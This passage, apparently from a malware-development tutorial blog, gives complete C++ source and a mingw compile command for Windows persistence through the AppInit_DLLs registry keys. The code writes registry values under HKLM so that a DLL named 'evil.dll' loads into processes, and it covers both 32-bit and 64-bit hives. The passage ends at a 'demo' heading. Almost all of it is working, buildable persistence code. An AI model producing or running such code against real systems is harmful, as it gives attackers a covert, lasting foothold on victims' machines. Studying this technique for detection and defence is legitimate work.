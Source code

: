 ```cpp
/*
pers.cpp
windows low level persistense via Appinit_DLLs
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/05/16/malware-pers-5.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious DLL
  const char* dll = "Z:\\2022-05-16-malware-pers-5\\evil.dll";
  // activation
  DWORD act = 1;

  // 32-bit and 64-bit
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Windows", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"LoadAppInit_DLLs", 0, REG_DWORD, (const BYTE*)&act, sizeof(act));
    RegSetValueEx(hkey, (LPCSTR)"AppInit_DLLs", 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }

  res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Wow6432Node\\Microsoft\\Windows NT\\CurrentVersion\\Windows", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"LoadAppInit_DLLs", 0, REG_DWORD, (const BYTE*)&act, sizeof(act));
    RegSetValueEx(hkey, (LPCSTR)"AppInit_DLLs", 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, setting the registry key `LoadAppInit_DLLs` to value `1` is also important.    

Let's go to compile it:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/55/2022-05-16_01-22.png){:class="img-responsive"}    

### demo
